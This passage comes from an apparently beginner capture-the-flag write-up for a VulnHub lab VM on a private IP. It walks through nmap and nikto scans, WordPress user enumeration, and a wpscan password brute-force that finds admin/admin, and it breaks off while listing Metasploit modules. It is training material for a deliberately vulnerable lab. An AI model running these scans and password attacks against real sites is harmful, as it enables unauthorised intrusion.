| 
| Comment:        
| 
| Comment:        These addresses can be used by anyone without any need to coordinate with IANA or an Internet registry.  The traffic from these addresses does not come from ICANN or IANA.  We are not the source of activity you may see on logs or in e-mail records.  Please refer to http://www.iana.org/abuse/answers
| 
| Comment:        
| 
| Comment:        These addresses were assigned by the IETF, the organization that develops Internet protocols, in the Best Current Practice document, RFC 1918 which can be found at:
| 
| Comment:        http://datatracker.ietf.org/doc/rfc1918
| 
| Ref:            https://rdap.arin.net/registry/ip/192.168.0.0
| 
| 
| 
| 
| 
| 
| 
| OrgName:        Internet Assigned Numbers Authority
| 
| OrgId:          IANA
| 
| Address:        12025 Waterfront Drive
| 
| Address:        Suite 300
| 
| City:           Los Angeles
| 
| StateProv:      CA
| 
| PostalCode:     90292
| 
| Country:        US
| 
| RegDate:        
| 
| Updated:        2012-08-31
| 
| Ref:            https://rdap.arin.net/registry/entity/IANA
| 
| 
| 
| 
| 
| OrgAbuseHandle: IANA-IP-ARIN
| 
| OrgAbuseName:   ICANN
| 
| OrgAbusePhone:  +1-310-301-5820 
| 
| OrgAbuseEmail:  abuse@iana.org
| 
| OrgAbuseRef:    https://rdap.arin.net/registry/entity/IANA-IP-ARIN
| 
| 
| 
| OrgTechHandle: IANA-IP-ARIN
| 
| OrgTechName:   ICANN
| 
| OrgTechPhone:  +1-310-301-5820 
| 
| OrgTechEmail:  abuse@iana.org
| 
| OrgTechRef:    https://rdap.arin.net/registry/entity/IANA-IP-ARIN
| 
| 
| 
| 
| 
| #
| 
| # ARIN WHOIS data and services are subject to the Terms of Use
| 
| # available at: https://www.arin.net/resources/registry/whois/tou/
| 
| #
| 
| # If you see inaccuracies in the results, please report at
| 
| # https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
| 
| #
| 
| # Copyright 1997-2021, American Registry for Internet Numbers, Ltd.
| 
| #
| 
| 
| 
===================================================================================================
| BANNER GRABBING: 
| X-Meta-Generator: WordPress 4.9
| Looking for Wordpress plugins: 
===================================================================================================
===================================================================================================
| PING
| 
| PING 192.168.125.135 (192.168.125.135) 56(84) bytes of data.
| 64 bytes from 192.168.125.135: icmp_seq=1 ttl=64 time=0.374 ms
| 64 bytes from 192.168.125.135: icmp_seq=2 ttl=64 time=0.495 ms
| 64 bytes from 192.168.125.135: icmp_seq=3 ttl=64 time=0.488 ms
| 64 bytes from 192.168.125.135: icmp_seq=4 ttl=64 time=0.486 ms
| 
| --- 192.168.125.135 ping statistics ---
| 4 packets transmitted, 4 received, 0% packet loss, time 3067ms
| rtt min/avg/max/mdev = 0.374/0.460/0.495/0.050 ms
===================================================================================================
| TRACEROUTE
| 
| traceroute to 192.168.125.135 (192.168.125.135), 30 hops max, 60 byte packets
|  1  192.168.125.135 (192.168.125.135)  9.938 ms  10.381 ms  10.717 ms
===================================================================================================
| NSLOOKUP
| 
| Server:		192.168.191.2
| Address:	192.168.191.2#53
| 
| ** server can't find 135.125.168.192.in-addr.arpa: NXDOMAIN
===================================================================================================
| NMAP
| 
| Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-11 13:52 AEST
| NSE: Loaded 153 scripts for scanning.
| NSE: Script Pre-scanning.
| Initiating NSE at 13:52
| Completed NSE at 13:52, 0.00s elapsed
| Initiating NSE at 13:52
| Completed NSE at 13:52, 0.00s elapsed
| Initiating NSE at 13:52
| Completed NSE at 13:52, 0.00s elapsed
| Initiating ARP Ping Scan at 13:52
| Scanning 192.168.125.135 [1 port]
| Completed ARP Ping Scan at 13:52, 0.04s elapsed (1 total hosts)
| Initiating Parallel DNS resolution of 1 host. at 13:52
| Completed Parallel DNS resolution of 1 host. at 13:52, 6.52s elapsed
| Initiating SYN Stealth Scan at 13:52
| Scanning 192.168.125.135 [1000 ports]
| Discovered open port 80/tcp on 192.168.125.135
| Discovered open port 22/tcp on 192.168.125.135
| Discovered open port 21/tcp on 192.168.125.135
| Completed SYN Stealth Scan at 13:52, 2.32s elapsed (1000 total ports)
| Initiating Service scan at 13:52
| Scanning 3 services on 192.168.125.135
| Completed Service scan at 13:52, 10.02s elapsed (3 services on 1 host)
| Initiating OS detection (try #1) against 192.168.125.135
| NSE: Script scanning 192.168.125.135.
| Initiating NSE at 13:52
| Completed NSE at 13:52, 10.04s elapsed
| Initiating NSE at 13:52
| Completed NSE at 13:53, 28.04s elapsed
| Initiating NSE at 13:53
| Completed NSE at 13:53, 0.00s elapsed
| Nmap scan report for 192.168.125.135
| Host is up (0.033s latency).
| Not shown: 997 closed ports
| PORT   STATE SERVICE VERSION
| 21/tcp open  ftp     ProFTPD 1.3.3c
| 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| | ssh-hostkey: 
| |   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
| |   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
| |_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
| 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| | http-methods: 
| |_  Supported Methods: GET HEAD POST OPTIONS
| |_http-server-header: Apache/2.4.18 (Ubuntu)
| |_http-title: Site doesn't have a title (text/html).
| MAC Address: 00:0C:29:FB:93:05 (VMware)
| Device type: general purpose
| Running: Linux 3.X|4.X
| OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
| OS details: Linux 3.2 - 4.9
| Uptime guess: 161.330 days (since Sun Jan 31 06:58:16 2021)
| Network Distance: 1 hop
| TCP Sequence Prediction: Difficulty=261 (Good luck!)
| IP ID Sequence Generation: All zeros
| Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
| 
| TRACEROUTE
| HOP RTT      ADDRESS
| 1   32.77 ms 192.168.125.135
| 
| NSE: Script Post-scanning.
| Initiating NSE at 13:53
| Completed NSE at 13:53, 0.00s elapsed
| Initiating NSE at 13:53
| Completed NSE at 13:53, 0.00s elapsed
| Initiating NSE at 13:53
| Completed NSE at 13:53, 0.00s elapsed
| Read data files from: /usr/bin/../share/nmap
| OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
| Nmap done: 1 IP address (1 host up) scanned in 59.45 seconds
|            Raw packets sent: 1023 (45.806KB) | Rcvd: 1015 (41.290KB)
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://192.168.125.135/secret/wp-admin/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://192.168.125.135/secret/license.txt
| [+] CODE: 200 URL: http://192.168.125.135/secret/index.php
| [+] CODE: 200 URL: http://192.168.125.135/secret/readme.html
| [+] CODE: 200 URL: http://192.168.125.135/secret/wp-content/plugins/akismet/readme.txt
===================================================================================================
|
| Check robots.txt:
|
| Check sitemap.xml:
===================================================================================================
|
| Crawler Started:
| Plugin name: FCKeditor upload test v.1 Loaded.
| Plugin name: Timthumb <= 1.32 vulnerability v.1 Loaded.
| Plugin name: Upload Form Detect v.1.1 Loaded.
| Plugin name: Code Disclosure v.1.1 Loaded.
| Plugin name: E-mail Detection v.1.1 Loaded.
| Plugin name: External Host Detect v.1.2 Loaded.
| Plugin name: phpinfo() Disclosure v.1 Loaded.
| Plugin name: Web Backdoor Disclosure v.1.1 Loaded.
| [+] Crawling finished, 38 URL's found!
|
| FCKeditor File Upload:
|
| Timthumb:
|
| File Upload Forms:
|
| Source Code Disclosure:
|
| E-mails:
| [+] E-mail Found: m@tidakada.com
|
| External hosts:
| [+] External Host Found: https://planet.wordpress.org
| [+] External Host Found: https://www.mysql.com
| [+] External Host Found: https://httpd.apache.org
| [+] External Host Found: https://wordpress.org
| [+] External Host Found: http://gmpg.org
| [+] External Host Found: https://developer.wordpress.org
| [+] External Host Found: http://vtcsec
| [+] External Host Found: https://secure.php.net
| [+] External Host Found: https://codex.wordpress.org
|
| PHPinfo() Disclosure:
|
| Web Backdoors:
|
| Ignored Files: 
| http://192.168.125.135/secret/wp-admin/css/install.css?ver=20100228
===================================================================================================
| Dynamic tests:
| Plugin name: Learning New Directories v.1.2 Loaded.
| Plugin name: FCKedior tests v.1.1 Loaded.
| Plugin name: Timthumb <= 1.32 vulnerability v.1 Loaded.
| Plugin name: Find Backup Files v.1.2 Loaded.
| Plugin name: Blind SQL-injection tests v.1.3 Loaded.
| Plugin name: Local File Include tests v.1.1 Loaded.
| Plugin name: PHP CGI Argument Injection v.1.1 Loaded.
| Plugin name: Remote Command Execution tests v.1.1 Loaded.
| Plugin name: Remote File Include tests v.1.2 Loaded.
| Plugin name: SQL-injection tests v.1.2 Loaded.
| Plugin name: Cross-Site Scripting tests v.1.2 Loaded.
| Plugin name: Web Shell Finder v.1.3 Loaded.
| [+] 5 New directories added
|                                                                                                   
|                                                                                                   
| FCKeditor tests:
|                                                                                                   
|                                                                                                   
| Timthumb < 1.33 vulnerability:
|                                                                                                   
|                                                                                                   
| Backup Files:
|                                                                                                   
|                                                                                                   
| Blind SQL Injection:
|                                                                                                   
|                                                                                                   
| Local File Include:
|                                                                                                   
|                                                                                                   
| PHP CGI Argument Injection:
|                                                                                                   
|                                                                                                   
| Remote Command Execution:
|                                                                                                   
|                                                                                                   
| Remote File Include:
|                                                                                                   
|                                                                                                   
| SQL Injection:
|                                                                                                   
|                                                                                                   
| Cross-Site Scripting (XSS):
|                                                                                                   
|                                                                                                   
| Web Shell Finder:
===================================================================================================
| Static tests:
| Plugin name: Local File Include tests v.1.1 Loaded.
| Plugin name: Remote Command Execution tests v.1.1 Loaded.
| Plugin name: Remote File Include tests v.1.1 Loaded.
|                                                                                                   
|                                                                                                   
| Local File Include:
|                                                                                                   
|                                                                                                   
| Remote Command Execution:
|                                                                                                   
|                                                                                                   
| Remote File Include:
===================================================================================================
Scan end date: 11-7-2021 13:53:58



HTML report saved in: report/192.168.125.135.html
```

<p></p>
So the extra information we have gathered is:
<p></p>

```
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://192.168.125.135/secret/wp-admin/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://192.168.125.135/secret/license.txt
| [+] CODE: 200 URL: http://192.168.125.135/secret/index.php
| [+] CODE: 200 URL: http://192.168.125.135/secret/readme.html
| [+] CODE: 200 URL: http://192.168.125.135/secret/wp-content/plugins/akismet/readme.txt
===================================================================================================
|
| E-mails:
| [+] E-mail Found: m@tidakada.com
|
| External hosts:
| [+] External Host Found: https://planet.wordpress.org
| [+] External Host Found: https://www.mysql.com
| [+] External Host Found: https://httpd.apache.org
| [+] External Host Found: https://wordpress.org
| [+] External Host Found: http://gmpg.org
| [+] External Host Found: https://developer.wordpress.org
| [+] External Host Found: http://vtcsec
| [+] External Host Found: https://secure.php.net
| [+] External Host Found: https://codex.wordpress.org
```

<p></p>
Lets also run a quick niksto scan against these two sites. Nickto is a web vulnerability scanner you can view the help page by running 'nikto -H', The command will look like this:
<p></p>

```
nikto -h http://192.168.125.135 && nikto -h http://192.168.125.135/secret/
```

<p></p>
Notice the && between the two commands, this basically says run the first command then immediately run the second. THis outputs:
<p></p>

```
❯ nikto -h http://192.168.125.135 && nikto -h http://192.168.125.135/secret/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.125.135
+ Target Hostname:    192.168.125.135
+ Target Port:        80
+ Start Time:         2021-07-11 14:08:36 (GMT10)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: b1, size: 55e1c7758dcdb, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Uncommon header 'link' found, with contents: <http://vtcsec/secret/index.php/wp-json/>; rel="https://api.w.org/"
+ OSVDB-3092: /secret/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7915 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2021-07-11 14:09:38 (GMT10) (62 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.125.135
+ Target Hostname:    192.168.125.135
+ Target Port:        80
+ Start Time:         2021-07-11 14:09:38 (GMT10)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'link' found, with contents: <http://vtcsec/secret/index.php/wp-json/>; rel="https://api.w.org/"
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ /secret/wp-content/plugins/akismet/readme.txt: The WordPress Akismet plugin 'Tested up to' version usually matches the WordPress version
+ /secret/wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /secret/license.txt: License file found may identify site software.
+ /secret/: A Wordpress installation was found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /secret/wp-login.php: Wordpress login found
+ 7915 requests: 0 error(s) and 14 item(s) reported on remote host
+ End Time:           2021-07-11 14:10:42 (GMT10) (64 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

<p></p>
This didn't return anything new for us that we haven't already found so lets begin looking at the web page. Navigating to the webpage presents us with this:
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/7499d3c6d163155de5b164595db2b60e6d6bae70/Starting_Point/VulnHub/BasicPentesting1/images/itworks.png"><br>
</div>
<p></p>
Not very exciting and from our enumeration we know there isn't much else going on with this page, even if we look at the page source it's likely a dead end.
<p></p>

```
<html><body><h1>It works!</h1>
<p>This is the default web page for this server.</p>
<p>The web server software is running but no content has been added, yet.</p>
</body></html>
```

<p></p>
We should move to the '/secret/' directory and have a look around.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/61e96aed2b5910af22c61fcca7e17d78fa7a1fc8/Starting_Point/VulnHub/BasicPentesting1/images/secret.png"><br>
</div>
<p></p>
This looks a bit more interesting. And now that we are working with wordpress you should look over <a href="https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress" rel="nofollow">HackTricks</a> page on wordpress.
<p></p>
Lets have a look around the blog, we can see that there is a post called 'Hello world!' If we navigate to that we find a user, 'admin'.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/923d1b123903f075e0892872580e2dc32bd87927/Starting_Point/VulnHub/BasicPentesting1/images/blogadmin.png"><br>
</div>
<p></p>
We can also see that when we clicked on the post the address changed from an ip address to 'vtcsec' we identified this in our earlier enumeration, we can tidy up our navigation around the site by adding this to our hosts file. If we dont do this some strange things can happen. To do this we enter the following command:
<p></p>

```
nano /etc/hosts
```

<p></p>
Then you will add the ip of the VM followed by a 'tab' followed by 'vtcsec'. Bellow is a screen grab for reference.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/a0283ba0fc38e3eb65342802bf329635ae65d09b/Starting_Point/VulnHub/BasicPentesting1/images/hosts.png"><br>
</div>
<p></p>
If we continue to navigate around the page at the bottom right you can see 'log in' if we navigate there we end up at a word press login page.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/c33e1d908deadee4349dc570e0deda16fe75fbc2/Starting_Point/VulnHub/BasicPentesting1/images/login.png"><br>
</div>
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/d536ccb994168aeb6f73d8aba2c5b4d1249477e4/Starting_Point/VulnHub/BasicPentesting1/images/wplogin.png"><br>
</div>
<p></p>
And that is everything of interest looking at the site, now we can begin enumerating it to see if we can pull any more information. To begin we will use wpscan to run a general scan (you can view wpscans help file using wpscan -h). The command we will use is:

<p></p>

```
wpscan --url 192.168.125.135/secret/ -e p
```

<p></p>
This command is pretty simple, <kbd>--url</kbd> points to the ip address and <kbd>-e p</kbd> tells wpscan to use all the popular plugins.
Which outputs:
<p></p>

```
❯ wpscan --url 192.168.125.135/secret/ -e p
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.125.135/secret/ [192.168.125.135]
[+] Started: Sun Jul 11 17:11:09 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.125.135/secret/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.125.135/secret/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.125.135/secret/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9 identified (Insecure, released on 2017-11-16).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.125.135/secret/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.9'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.125.135/secret/, Match: 'WordPress 4.9'

[i] The main theme could not be detected.

[+] Enumerating Most Popular Plugins (via Passive Methods)

[i] No plugins Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jul 11 17:11:10 2021
[+] Requests Done: 25
[+] Cached Requests: 4
[+] Data Sent: 7.079 KB
[+] Data Received: 120.037 KB
[+] Memory used: 172.602 MB
[+] Elapsed time: 00:00:01
```

<p></p>
The most important information we found was:
<p></p>

```
[+] WordPress version 4.9 identified (Insecure, released on 2017-11-16).
```

<p></p>
So we know this version of wordpress is insecure. Lets see if we can find anymore users using wpscan. The command we will use is:
<p></p>

```
wpscan --url 192.168.125.135/secret/ -e u1-10
```

<p></p>
The difference in this command comes at the <kbd>-e</kbd> flag which points to <kbd>u1-10</kbd> which will look for users with an id between 1 and 10. This command outputs:
<p></p>

```
❯ wpscan --url 192.168.125.135/secret/ -e u1-10
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.125.135/secret/ [192.168.125.135]
[+] Started: Sun Jul 11 17:17:41 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.125.135/secret/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.125.135/secret/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.125.135/secret/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.9 identified (Insecure, released on 2017-11-16).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.125.135/secret/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.9'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.125.135/secret/, Match: 'WordPress 4.9'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jul 11 17:17:42 2021
[+] Requests Done: 25
[+] Cached Requests: 28
[+] Data Sent: 6.824 KB
[+] Data Received: 174.938 KB
[+] Memory used: 124.84 MB
[+] Elapsed time: 00:00:00
```

<p></p>
We didnt find any other usernames except admin which we found when we were looking around the site to begin with so we will move onto breaking into the site.
<p></p>
Since this write up is designed for very beginners I will take you through how to break into the site using wpscan and a password list which is very easy however it is possible to use hydra to break into this site because of its bad configuration, if you want to know how to do this refer to my <a href="https://github.com/Shadow-Admins/Cyber_Club/tree/main/Starting_Point/VulnHub/MrRobot" rel="nofollow">writeup</a> on Mr Robot where I take you through enumerating and bruteforcing wordpress using hydra (this skill can be used in more situations than wpscan so is a good tool to have in your arsenel).
<p></p>
To bruteforce into the site we will use the following command:
<p></p>

```
wpscan --url 192.168.125.135/secret/wp-login.php -U admin -P /usr/share/wordlists/SecLists/Passwords/cirt-default-passwords.txt --force
```

<p></p>
In this command you can see the change is to the end of the command, the <kbd>-U</kbd> flag points to the username we discovered, the <kbd>-P</kbd> flag points to the password file we wish to use in this case the cirt-default-passwords.txt file from <a href="https://github.com/danielmiessler/SecLists" rel="nofollow">SecLists</a> which is an essential git you need to pull it is full of all types of lists for enumerating and bruteforcing. finally you can see the <kbd>--force</kbd> flag, I had to use this because I kept getting an error saying that the site wasn't running wordpress, which we know it is. THis command outputs the following:
<p></p>

```
❯ wpscan --url 192.168.125.135/secret/wp-login.php -U admin -P /usr/share/wordlists/SecLists/Passwords/cirt-default-passwords.txt --force
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.125.135/secret/wp-login.php/ [192.168.125.135]
[+] Started: Sun Jul 11 18:05:46 2021

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress readme found: http://192.168.125.135/secret/wp-login.php/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] This site seems to be a multisite
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | Reference: http://codex.wordpress.org/Glossary#Multisite

[+] The external WP-Cron seems to be enabled: http://192.168.125.135/secret/wp-login.php/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

Fingerprinting the version - Time: 00:00:02 <=============================================================================================================> (632 / 632) 100.00% Time: 00:00:02
[i] The WordPress version could not be detected.

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <===============================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - admin / admin                                                                                                                                                                     
Trying admin / admin Time: 00:00:03 <======================================                                                                               > (535 / 1576) 33.94%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: admin

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jul 11 18:05:53 2021
[+] Requests Done: 1306
[+] Cached Requests: 823
[+] Data Sent: 676.626 KB
[+] Data Received: 2.088 MB
[+] Memory used: 185.473 MB
[+] Elapsed time: 00:00:07
```

<p></p>
And we got a return:
<p></p>

```
[!] Valid Combinations Found:
 | Username: admin, Password: admin
```

<p></p>
Now we can log into the page and are presented with the dashboard.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/08dbc91b08a4f842635de0c5bfb0d95e5707de45/Starting_Point/VulnHub/BasicPentesting1/images/wpdashboard.png"><br>
</div>
<p></p>
Now what to do, again if you refer to my <a href="https://github.com/Shadow-Admins/Cyber_Club/tree/main/Starting_Point/VulnHub/MrRobot" rel="nofollow">writeup</a> on Mr Robot you can see how to include a php reverse shell in the page however we are going to be even more simple in this situation. We are going to use msfconsole to get us a shell (note I couldn't get this method to work but I know it can be done so I will still include how to do it). First we need to start msf, to do this we run:
<p></p>

```
msfconsole
```

<p></p>
Which outputs:
<p></p>

```
❯ msfconsole
                                                  

      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v6.0.44-dev                          ]
+ -- --=[ 2131 exploits - 1139 auxiliary - 363 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: You can use help to view all 
available commands

msf6 > 
```

<p></p>
Next we need to search for wordpress using the following command:
<p></p>

```
search wordpress
```

<p></p>
Which outputs: (note I am only showing the first 25 entries because it is a 95 long list)
<p></p>

```
msf6 > search wordpress

Matching Modules
================

   #   Name                                                           Disclosure Date  Rank       Check  Description
   -   ----                                                           ---------------  ----       -----  -----------
   0   auxiliary/scanner/http/wp_abandoned_cart_sqli                  2020-11-05       normal     No     Abandoned Cart for WooCommerce SQLi Scanner
   1   exploit/windows/fileformat/adobe_flashplayer_button            2010-10-28       normal     No     Adobe Flash Player "Button" Remote Code Execution
   2   exploit/windows/browser/adobe_flashplayer_newfunction          2010-06-04       normal     No     Adobe Flash Player "newfunction" Invalid Pointer Use
   3   exploit/windows/fileformat/adobe_flashplayer_newfunction       2010-06-04       normal     No     Adobe Flash Player "newfunction" Invalid Pointer Use
   4   exploit/osx/local/rootpipe_entitlements                        2015-07-01       great      Yes    Apple OS X Entitlements Rootpipe Privilege Escalation
   5   exploit/osx/local/rootpipe                                     2015-04-09       great      Yes    Apple OS X Rootpipe Privilege Escalation
   6   exploit/windows/ftp/easyftp_cwd_fixret                         2010-02-16       great      Yes    EasyFTP Server CWD Command Stack Buffer Overflow
